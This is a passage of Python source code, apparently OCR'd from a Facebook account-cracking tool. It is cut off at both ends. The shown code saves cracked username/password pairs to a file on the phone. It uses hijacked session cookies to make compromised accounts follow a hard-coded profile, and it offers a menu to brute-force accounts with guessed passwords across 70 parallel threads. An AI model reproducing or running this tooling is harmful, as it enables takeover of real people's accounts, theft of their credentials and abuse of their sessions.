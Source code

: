                         day   = ''

                        year  = ''

                    except:

                        pass

                    

                    wrt = '%s|%s' % (usr,w)

                    cp.append(wrt)

                    open('/sdcard/TANJID_CP.txt' , 'a').write('%s\n' % wrt)

                    break

                else:

                    continue

            loop+=1

        except:

            self.__metode__(user, pw, cebok)

    def follow(self, session, coki):

        r = BeautifulSoup(session.get('https://mbasic.facebook.com/AliBaloch356', cookies={'cookie': coki}).text, 'html.parser')

        get = r.find('a', string='Ikuti').get('href')

        session.get(('https://mbasic.facebook.com' + str(get)), cookies={'cookie': coki}).text

    def __pler__(self):

        print(' [1] Crack With Auto Pass ')

        print(' [2] Crack With Name Digit Pass')

        chi = input('\n [?] Choose: ')

        if chi == '':

            print('\n   Select Correct One')

            self.__pler__()

        elif chi in ('1', '01'):

            os.system("clear")

            print(logo)

            print("\033[1;32m      Dont Forget Allah😊 \033[1;37m")

            print("༄TANJID᭄•───────────────────────────────────────•༄AHMED᭄")

            

            with sarfrazssb(max_workers=70) as ssbworld:

                for zsb in self.id: # Yo Ndak Tau Kok Tanya Saia
